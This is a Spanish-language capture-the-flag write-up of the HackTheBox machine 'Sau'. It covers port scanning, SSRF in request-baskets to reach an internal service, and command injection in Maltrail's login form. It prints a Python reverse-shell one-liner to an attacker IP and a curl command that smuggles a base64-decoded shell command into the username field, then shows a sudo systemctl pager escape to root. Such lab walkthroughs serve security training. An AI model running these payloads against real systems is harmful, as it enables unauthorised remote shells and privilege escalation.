 ```yaml
---
layout: post
title: HackTheBox - Sau 
author: c4rta
date: 2023-08-29
tags: [HTB, SSRF]
image: /assets/img/sau/waifu.jpg
---
```


{:.lead}

## Enumeracion

Iniciamos con un escaneo de nmap con:

```ruby
nmap -sS -n -Pn -T4 --open -p- 10.10.11.224
```

- sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto, y ademas para que vaya mas rapido

- n: para que no haga resolucion DNS y tarde menos el escaneo

- Pn: para evitar el descubrimiento de hosts

- open: para que solo muestre los puertos abiertos

- -p-: para que escanee todo el rango de puertos

Y nos reporto el puerto 22 (SSH) y 55555:

```ruby
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```

Adicionalmente, si mostramos los puertos filtrados, nos saldra el puerto **80**

```ruby
80/tcp    filtered http
```

Ahora escanearemos para obtener mas informacion sobre la version y el servicio que estan corriendo bajo esos puertos. En el puerto 55555 nos mostrara que encontro informacion de un sitio web y el recurso **web**:

```ruby
nmap -sCV -p22,22,55555 10.10.11.224
```

```ruby
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 02 Jan 2024 22:20:01 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 02 Jan 2024 22:19:33 GMT
|     Content-Length: 27
|     href="/web">Found</a>. <-- recurso de un sitio web
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 02 Jan 2024 22:19:34 GMT
|_    Content-Length: 0
```

### Analisis del puerto 55555

El puerto **55555** corresponde a un servidor web, por defecto nos manda al recurso **web** como se puede ver: 

![](/assets/img/sau/1.png)

Si vemos en el footer del sitio, aparecera que esta usando **request-baskets** es una version

```
Powered by request-baskets | Version: 1.2.1 
```

Al realizar una busqueda en google, podemos notar que es vulnerable a **SSRF**

[https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside](https://www.akto.io/cves/CVE-2023-27163-requestbaskets-up-to-v-was-discovered-to-contain-a-serverside)

Nos menciona que esta vulnerabilidad nos permite acceder a recursos internos a travez de una peticion a la API que ejecuta por detras **request-baskets**

Analizando un poco mas las opciones del sitio, nos encontramos que podemos crear **baskets** y luego acceder a ellas mediante una URL. Al explorar una basket creada, podemos ver las solicitudes que se han echo asi como mas informacion, tambieb modificar algunas cosas de configuracion: 

![](/assets/img/sau/2.png)

Tenemos la capacidad de hacer **URL forwarding**, es decir, hacer una redireccion a una URL.

## SSRF - access port 80

**SSRF:** Server-side request forgery es una vulnerabilidad que permite a los atancantes realizar peticiones arbitrarias con el fin de acceder a servicios internos de la maquina, o hacer peticiones a servidores externos de la maquina.

Recapitulando, debido a que tenemos un **SSRF**, una redireccion URL, y el puerto 80 filtrado, podemos intentar modificar la configuracion de una **basket** de esta forma:

![](/assets/img/sau/3.png)

Lo que estaria pasando, es que cuando nosotros ingresemos a la URL que se genero cuando se crea un **basket**, esa peticion se estaria redireccionado a **127.0.0.1:80**, y como existe un SSRF, estariamos accediendo al servicio interno de la maquina que corre en **127.0.0.1:80**, lo cual indica que el SSRF se exploto correctamente como se puede ver

![](/assets/img/sau/4.png)

## RCE - Maltrail (v0.53)

Como se observa al final, se esta usando la version 0.53 de Maltrail, al realizar una busqueda rapida en google, nos daremos cuenta que que podemos explotar una vulnerabilidad para conseguir RCE, leyendo un poco de la vulnerabilidad, el parametro **username** del recurso **login** no se sanitiza correctamente, lo cual permie que podamos inyectar comandos, por lo cual podemos explotarla directamente usando curl:

Usaremos python para crear una revese shell:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>", <puerto>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
    Recuerda cambiar la IP y el puerto

Luego lo codificaremos en b64 y usaremos este comando para enviar una peticion por POST y en el parametro **username** le encadenamos el comando

```ruby
curl -X POST "http://10.10.11.224:55555/dihpeef/login" -d "username=;$(echo "<base 64>" | base64 -d | bash)"
```

La URL debe ser por una basket que hayas creado y obtendremos una conexion

![](/assets/img/sau/5.png)

(A este punto tenemos la flag de user)

## Escalada de privilegios

Si vemos los permisos de nivel de sudoers, podremos ver que el usuario puma puede ejecutar **systemctl** sin contraseña:

    Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User puma may run the following commands on sau:
        (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

Debido a que cuando ejecutamos comando con systemctl usa una interfaz o vista similar a la del comando **less**, podemos inyectar comando al final de la vista de systemctl de la siguiente manera

![](/assets/img/sau/6.png)

Observa como al final de la vista o cuando termina la informacion mostrada, se le ingresa el comando que queremos ejecutar, en este caso fue **!bash** (ignorar el WARNING: terminal is not fully functional, no la hice fully interactive TTY)

Con eso hemos conseguido root

Eso ha sido todo, gracias por leer ❤
